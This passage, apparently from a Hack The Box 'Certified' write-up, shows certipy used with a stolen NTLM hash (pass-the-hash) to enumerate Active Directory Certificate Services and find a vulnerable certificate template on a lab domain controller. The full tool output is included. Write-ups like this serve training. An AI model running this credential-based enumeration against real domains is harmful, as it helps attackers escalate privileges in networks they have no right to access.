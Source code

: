 As you can see, we can't auth as `CA_OPERATOR`.So I didn't find any other way.In this situation I always prefer to use `certipy` for enumerating ADCS

## Enumeration ADCS

```test
certipy find -vulnerable -u ca_operator -hashes :b4b86f45c6018f1b664f70805f45d8f2 -dc-ip 10.10.11.41 -stdout
Certipy v4.8.2 - by Oliver Lyak (ly4k)

[*] Finding certificate templates
[*] Found 34 certificate templates
[*] Finding certificate authorities
[*] Found 1 certificate authority
[*] Found 12 enabled certificate templates
[*] Trying to get CA configuration for 'certified-DC01-CA' via CSRA
[!] Got error while trying to get CA configuration for 'certified-DC01-CA' via CSRA: CASessionError: code: 0x80070005 - E_ACCESSDENIED - General access denied error.
[*] Trying to get CA configuration for 'certified-DC01-CA' via RRP
[!] Failed to connect to remote registry. Service should be starting now. Trying again...
[*] Got CA configuration for 'certified-DC01-CA'
[*] Enumeration output:
Certificate Authorities
  0
    CA Name                             : certified-DC01-CA
    DNS Name                            : DC01.certified.htb
    Certificate Subject                 : CN=certified-DC01-CA, DC=certified, DC=htb
    Certificate Serial Number           : 36472F2C180FBB9B4983AD4D60CD5A9D
    Certificate Validity Start          : 2024-05-13 15:33:41+00:00
    Certificate Validity End            : 2124-05-13 15:43:41+00:00
    Web Enrollment                      : Disabled
    User Specified SAN                  : Disabled
    Request Disposition                 : Issue
    Enforce Encryption for Requests     : Enabled
    Permissions
      Owner                             : CERTIFIED.HTB\Administrators
      Access Rights
        ManageCertificates              : CERTIFIED.HTB\Administrators
                                          CERTIFIED.HTB\Domain Admins
                                          CERTIFIED.HTB\Enterprise Admins
        ManageCa                        : CERTIFIED.HTB\Administrators
                                          CERTIFIED.HTB\Domain Admins
                                          CERTIFIED.HTB\Enterprise Admins
        Enroll                          : CERTIFIED.HTB\Authenticated Users
Certificate Templates
  0
    Template Name                       : CertifiedAuthentication
    Display Name                        : Certified Authentication
    Certificate Authorities             : certified-DC01-CA
    Enabled                             : True
    Client Authentication               : True
    Enrollment Agent                    : False
    Any Purpose                         : False
    Enrollee Supplies Subject           : False
    Certificate Name Flag               : SubjectRequireDirectoryPath
                                          SubjectAltRequireUpn
    Enrollment Flag                     : NoSecurityExtension
                                          AutoEnrollment
                                          PublishToDs
    Private Key Flag                    : 16842752
    Extended Key Usage                  : Server Authentication
                                          Client Authentication
    Requires Manager Approval           : False
    Requires Key Archival               : False
```